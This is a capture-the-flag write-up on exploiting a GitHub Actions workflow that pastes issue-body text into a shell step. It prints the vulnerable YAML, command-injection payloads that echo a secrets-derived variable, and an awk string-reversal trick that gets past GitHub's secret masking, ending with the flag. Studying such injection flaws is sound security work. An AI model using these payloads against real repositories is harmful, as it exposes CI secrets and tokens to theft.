



# Comments (500 points) - Github

You must solve the first challenge to get the answer, all you need is inside the Loby.



This problem is common in github CTF, hacking the repository with environment variables from github workflows/actions, to uncover the secrets environment variables.

Viewing the workflow yaml file we can see the following:

```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

So we can see that the flag is in the secrets environment variable, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with `db_pass` variable.

I see a delicious vuln in the workflow, the `github.event.issue.body` parses the body of the issue, so we can write a payload for command injection in the body of the issue to read the secrets variable.

```bash
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
echo "::set-output name=teacher::$TEACHER"
echo "::set-output name=review::$REVIEW"
```

We can write the following payload:

```bash
'); echo $db_pass; # Review: '
```
Will be executed as:

```bash
TEACHER=$(echo ''); echo $db_pass; # Review: '
```



This first test will give us a glimpse of mask `***` LMAO since the secrets variable is protected. To unmask the flag we need to reverse the string with basic `awk` for strings manipulations.

```bash
'); echo "$db_pass" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }'; # Review: '
```



**FLAG:** EKO{m0ve_y0uR_b0dy}
